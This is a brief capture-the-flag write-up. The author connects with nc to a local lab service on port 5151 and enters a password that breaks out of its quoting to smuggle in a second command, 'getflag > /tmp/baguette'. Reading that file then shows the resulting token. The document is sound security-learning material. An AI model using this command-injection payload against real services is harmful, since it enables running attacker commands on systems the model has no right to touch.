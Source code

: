 # The program listen on port 5151

> nc localhost 5151
>
> Password: \";getflag > /tmp/baguette;\"
> Erf nope..

> cat /tmp/baguette
> Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s